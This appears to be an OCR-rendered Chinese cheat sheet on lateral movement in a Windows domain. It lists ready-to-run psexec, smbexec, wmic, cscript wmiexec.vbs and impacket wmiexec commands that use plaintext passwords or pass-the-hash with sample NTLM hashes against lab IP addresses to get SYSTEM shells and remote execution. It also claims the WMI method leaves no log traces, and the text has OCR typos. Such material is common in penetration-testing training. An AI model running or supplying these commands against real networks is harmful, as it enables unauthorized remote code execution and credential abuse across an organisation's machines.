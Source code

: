 ### 域横向移动SMR服务利用-psexec, smbexec (官方自带)

利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。
#psexec第一种:先有ipc链接，psexec需 要明文或hash传递

```
net use \ \192.168.3.32\ipc$ "admin!@#45"  /user:administrator
```

```
psexec \\192.168.3.32 -s cmd #需要先有ipc链接-s以system权限运行
```

#psexec第二种:不用建立IPC直接提供明文账户密码

```
psexec \\192.168.3.21 -u administrator -p Admin12345 -s cmd
psexec -hashes : SHASHS ./administrator@10.1.2.3
psexec -hashes : SHASHS domain/administrator@10.1.2.3 
psexec -hashes : 518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
```

#非官方自带-参考impacket工具包使用，操作简单，容易被杀
#smbexec无需先ipc链接明文或hash传递

```
smbexec god/administrator :Admin12345@192.168.3.21
smbexec ./administrator :admin!@#45@192.168.3.32
smbexec -hashes :$HASHS ./admin@192.168.3.21
smbbexec -hashes :$HASHS domain/admin@192.168.3.21
smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
smbexec -hashes :ccef208c6485269c20db2cad21734fe7	god/administrator@192.168.3.21

```

### 域横向移动WMI服务利用-cscript, wmiexec, wmic

WMI (Windows Management Instrumentation) 是通过135端口进行利用， 支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。
#自带WMIC明文传递无回显

```
wmic /node:192.168.3.21 /user:administrator /password:Admin12345 process call create "cmd.exe /c ipconfig >C:\1. txt"
```

#自带cscript明文传递有回显

```
cscript / /nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
```

#套件impacket wmiexec 明文或hash传递 有回显exe版本

```
wmiexec ./administrator :admin!@#45@192.168.3.32 "whoami "
wmiexec god/ administrator :Admin12345@192.168.3.21 "whoami "
wmiexec -hashes :518b98ad4178a53695dc997aa02d455c  ./administrator@192.168.3.32 "whoami”
wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami ”
```
